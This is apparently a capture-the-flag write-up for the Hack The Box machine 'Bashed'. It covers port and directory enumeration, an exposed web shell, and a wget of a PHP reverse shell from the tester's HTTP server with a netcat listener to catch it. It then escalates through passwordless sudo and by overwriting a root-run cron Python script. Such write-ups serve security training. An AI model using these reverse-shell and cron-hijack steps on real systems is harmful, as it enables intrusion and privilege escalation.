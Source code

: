 # BASHED

## ENUMERATION

Running the nmap scan we find only one port open

```
nmap 10.10.10.68 -p 80 -A
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-03 04:59 EDT
Nmap scan report for 10.10.10.68
Host is up (0.12s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site
```

Finding the http port open I ran gobuster to find directories 

```
===============================================================
2021/08/03 05:04:51 Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 290]
/.htaccess            (Status: 403) [Size: 295]
/.htpasswd            (Status: 403) [Size: 295]
/css                  (Status: 301) [Size: 308] [--> http://10.10.10.68/css/]
/dev                  (Status: 301) [Size: 308] [--> http://10.10.10.68/dev/]
/fonts                (Status: 301) [Size: 310] [--> http://10.10.10.68/fonts/]
/images               (Status: 301) [Size: 311] [--> http://10.10.10.68/images/]
/index.html           (Status: 200) [Size: 7743]                                
/js                   (Status: 301) [Size: 307] [--> http://10.10.10.68/js/]    
/php                  (Status: 301) [Size: 308] [--> http://10.10.10.68/php/]   
/server-status        (Status: 403) [Size: 299]                                 
/uploads              (Status: 301) [Size: 312] [--> http://10.10.10.68/uploads/]
```

Opening the /dev directory that we found through gobuster we find a interactive web shell 

## SHELL

Running the ```ls -la``` command in the ```/var/www/html``` directory we find that the ```uploads``` directory is the only one in which our user i.e. ```www-data``` has write permission. So that's where we can upload php reverse shell.

Downloading php reverse shell from <http://pentestmonkey.net/tools/web-shells/php-reverse-shell> on my machine and changing the ip to our system tunnel ip and the port to 4444

Running the command ```python -m SimpleHTTPServer``` to start a http server on our machine in the same directory as the php reverse shell we need to upload

![](https://github.com/Leo-2807/Writeups/tree/main/images/hackthebox/bshed2.png)

Now we run the command ```wget http://10.10.14.36:8000/php-reverse-shell.php``` to download the reverse shell on the machine

![](https://github.com/Leo-2807/Writeups/tree/main/images/hackthebox/bashed1.png)

Starting nc listerner ```nv -lvnp 4444``` on our system and then opening the url <http.//10.10.10.68/uploads/php-reverse-shell.php>

![](https://github.com/Leo-2807/Writeups/tree/main/images/hackthebox/bashed3.png)	

We get a shell which we stabilize with the command ```python -c 'import pty; pty.spawn("/bin/bash")'```

## WWW-DATA --> USER

Using the command ```sudo -l``` 

This means that we have permissions to become user scriptmanager without password

```
www-data@bashed:/$ sudo -u scriptmanager /bin/bash
sudo -u scriptmanager /bin/bash
scriptmanager@bashed:/$ whoami
whoami
scriptmanager
scriptmanager@bashed:/$ cd /home
cd /home
scriptmanager@bashed:/home$ ls 
ls 
arrexel  scriptmanager
scriptmanager@bashed:/home$ cd arrexel
cd arrexel
scriptmanager@bashed:/home/arrexel$ ls
ls
user.txt
scriptmanager@bashed:/home/arrexel$ cat user.txt
cat user.txt
2c281f318555dbc1b856957c7147bfc1
```
And we have our user flag

## USER --> ROOT

Using command ```ls -la``` in the / diectory we find only one directory writabble to out user ```scripts```
```
scriptmanager@bashed:/$ ls -la
ls -la
total 88
drwxr-xr-x  23 root          root           4096 Dec  4  2017 .
drwxr-xr-x  23 root          root           4096 Dec  4  2017 ..
drwxr-xr-x   2 root          root           4096 Dec  4  2017 bin
drwxr-xr-x   3 root          root           4096 Dec  4  2017 boot
drwxr-xr-x  19 root          root           4240 Aug  3 01:57 dev
drwxr-xr-x  89 root          root           4096 Dec  4  2017 etc
drwxr-xr-x   4 root          root           4096 Dec  4  2017 home
lrwxrwxrwx   1 root          root             32 Dec  4  2017 initrd.img -> boot/initrd.img-4.4.0-62-generic
drwxr-xr-x  19 root          root           4096 Dec  4  2017 lib
drwxr-xr-x   2 root          root           4096 Dec  4  2017 lib64
drwx------   2 root          root          16384 Dec  4  2017 lost+found
drwxr-xr-x   4 root          root           4096 Dec  4  2017 media
drwxr-xr-x   2 root          root           4096 Feb 15  2017 mnt
drwxr-xr-x   2 root          root           4096 Dec  4  2017 opt
dr-xr-xr-x 115 root          root              0 Aug  3 01:57 proc
drwx------   3 root          root           4096 Dec  4  2017 root
drwxr-xr-x  18 root          root            500 Aug  3 01:58 run
drwxr-xr-x   2 root          root           4096 Dec  4  2017 sbin
drwxrwxr--   2 scriptmanager scriptmanager  4096 Aug  3 02:57 scripts
drwxr-xr-x   2 root          root           4096 Feb 15  2017 srv
dr-xr-xr-x  13 root          root              0 Aug  3 02:16 sys
drwxrwxrwt  10 root          root           4096 Aug  3 03:03 tmp
drwxr-xr-x  10 root          root           4096 Dec  4  2017 usr
drwxr-xr-x  12 root          root           4096 Dec  4  2017 var
lrwxrwxrwx   1 root          root             29 Dec  4  2017 vmlinuz -> boot/vmlinuz-4.4.0-62-generic
```
In the scripts directory we find two files 
```
scriptmanager@bashed:/$ cd /scripts
cd /scripts
scriptmanager@bashed:/scripts$ ls
ls
test.py  test.txt
scriptmanager@bashed:/scripts$ cat test.py
cat test.py
f = open("test.txt", "w")
f.write("testing 123!")
f.close
scriptmanager@bashed:/scripts$ cat test.txt
cat test.txt
testing 123!
```

using ```ls -la ``` command we see that the time of last execution of test.py is the current time which lead me to try it again after a few minutes and the time was again same as the current time 
This means that the script is being executed by crontab running in the background 

We use this to read root.txt
```
scriptmanager@bashed:/scripts$ echo 'import os' > test.py
echo 'import os' > test.py
scriptmanager@bashed:/scripts$ echo 'os.system("cat /root/root.txt > /tmp/readme.txt")' >> test.py
<ts$ echo 'os.system("cat /root/root.txt > /tmp/readme.txt")' >> test.py     
scriptmanager@bashed:/scripts$ cat test.py
cat test.py
import os
os.system("cat /root/root.txt > /tmp/readme.txt")
scriptmanager@bashed:/scripts$ cd /tmp
cd /tmp
scriptmanager@bashed:/tmp$ ls
ls
VMwareDnD
readme.txt
systemd-private-fb9d9649303741a0b3e5ee96e5c01d4d-systemd-timesyncd.service-8VKUb9
vmware-root
scriptmanager@bashed:/tmp$ cat readme.txt
```
And we have out root flag
